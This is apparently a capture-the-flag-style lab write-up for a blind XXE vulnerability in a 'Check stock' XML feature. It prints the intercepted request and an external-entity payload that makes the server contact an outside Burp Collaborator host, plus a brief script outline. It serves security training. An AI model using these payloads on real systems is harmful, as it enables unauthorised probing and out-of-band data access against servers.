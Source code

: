 ### Lab: Blind XXE with out-of-band interaction

This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

_____

Analysis and Exploit:

1. Intercept the "Check stock" functionality via **[BURP-PROXY]**
    - POST **/product/stock**
    ``` xml
        <?xml version="1.0" encoding="UTF-8"?>  
        <stockCheck><productId>1</productId>
        <storeId>1</storeId></stockCheck>
    ```
2. **[BURP-REPEATER]** create the payload and send it
    ``` xml
        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE jito [ <!ENTITY xxe SYSTEM 'http://xxe.burpcollaborator.net'> ] >
        <stockCheck><productId>&xxe;</productId>
        <storeId>1</storeId></stockCheck>
    ```
    - if "XML parsing error" and status code 400: works!

_____

Script:

1. Send payload | POST **/product/stock** | params: 'xml payload'
    ``` xml
        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE jito [ <!ENTITY xxe SYSTEM 'http://xxe.burpcollaborator.net'> ] >
        <stockCheck><productId>&xxe;</productId>
        <storeId>1</storeId></stockCheck>
    ```
    - if "XML parsing error" not in response and status code != 400: stops